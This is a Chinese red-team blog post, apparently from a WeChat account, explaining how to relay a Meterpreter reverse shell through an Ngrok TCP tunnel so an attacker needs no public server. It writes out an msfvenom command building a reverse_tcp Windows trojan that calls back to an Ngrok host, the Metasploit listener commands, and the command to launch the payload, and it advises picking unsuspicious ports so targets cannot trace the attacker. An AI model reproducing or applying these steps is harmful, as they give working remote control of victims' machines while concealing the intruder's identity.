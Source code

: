 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PywNbakSZmIVhfbKARfMmA)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **55** 篇文章，本公众号会记录一些红队攻击的笔记（由浅到深），不定时更新

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif)

Ngrok

Ngrok 是一个反向代理，通过在公共的端点和本地运行的 Web 服务器之间建立一个安全的通道。

反向代理在计算机网络中是代理服务器的一种。服务器根据客户端的请求，从其关系的一组或多组后端服务器（如 Web 服务器）上获取资源，然后再将这些资源返回给客户端，客户端只会得知反向代理的 IP 地址，而不知道在代理服务器后面的服务器集群的存在。

**通过利用 Ngrok 我们可以使用最少的成本去通过 Metasploit 隐蔽自己，从而达到目标很难追踪到自己。**

**内网 Kali 通过 Ngrok 穿透反弹 shell 到 Metasploit**

**具体演示**

首先要去下载一个 Ngrok 客户端：https://www.ngrok.cc/download.html

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKMshmXtFCVfMuibVxvcMotKF6vhf1OZ6On7IiaPeFFFDkHKibEHiaTx589oKyZ4xwfzDldhGvK86NFcw/640?wx_fmt=png)

这里主要选择 tcp 隧道，然后本地端口也就是 Kail 要监听的端口，我这里选了 8888 端口（**在实际攻击场景中尽量选择一些不让人怀疑的高端口，例如 26458 等等，别设置例如：4444 、5555、6666 这种端口，具体原因不必多说**），然后会有一个域名和隧道 ID：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKMshmXtFCVfMuibVxvcMotKr90hxusFBK3FQwSo2dIFdm1icYMNUPH7SphI7VERvsI6LOWuibW7r9fg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKMshmXtFCVfMuibVxvcMotK8TZqD3RyePH311X8HjYEictGg2Q1BDnIlZF5dBiaV6Fo4Tc3biaLkHXZw/640?wx_fmt=png)

然后在 Kali 上运行 Ngrok：  

```
./sunny clientid 你的隧道id
```

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKMshmXtFCVfMuibVxvcMotKaeZtiaibA6BRpcTJCNQYwvOOzicWBxgBXER0z0baLKic7ngwNmo1CYroCA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKMshmXtFCVfMuibVxvcMotK3z5rQgSFx7fH52KvvFdYS5z7SWAFqNZOYUORktqnQtmqDFYPl2ROeQ/640?wx_fmt=png)

这个时候就做好内网穿透了！因为是通过 Kali 本机的 8888 端口给转发到 Ngrok 的 10073，所以就得生成一个反向，然后端口是 10073 的木马：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxxx.xxxx.com LPORT=10073 -f exe > 8888.exe
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKMshmXtFCVfMuibVxvcMotKDcnL3SHO8xM0ahnBxXiaF90pYW2qHafIVkb8brK9LNoaQK53nmEwyHw/640?wx_fmt=png)

最后 Kali 打开 MSF 控制台 msfconsole 开启监听（注意这里的端口需要设置为 8888，ip 设置为本地 127.0.0.1 ）：

```
msf > set lhost 127.0.0.1
msf > set lport 8888
msf > exploit
```

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKMshmXtFCVfMuibVxvcMotKquQNViaPmaVn9peP7yCJ7OhckiaAoIyswJmzfbDQibLPmia6W7IXrZfibPQ/640?wx_fmt=jpeg)最后运行 8888.exe 成功反弹 Meterpreter 到 Metasploit：

```
cmd /c start 8888.exe
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKMshmXtFCVfMuibVxvcMotKC6MfgfPym03ufEE5q4pibbObFw1zkIzVepWhM92YPBKibVYkCFnCqJVw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKMshmXtFCVfMuibVxvcMotKbzNAJ9YqvAYVDV0iaU7N7Rj6IXiboDYqd9zxzeosq0tEIyoklujVkQJw/640?wx_fmt=jpeg)

这样就能实现无需公网 VPS 就能反弹 Shell。通过这样的方式能够以最少的成本去隐蔽自己，当然这种方式也不是最有效的隐蔽手段，但是是最快捷的方式，通过 Ngrok 能基本上能满足大部分渗透的需求。

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看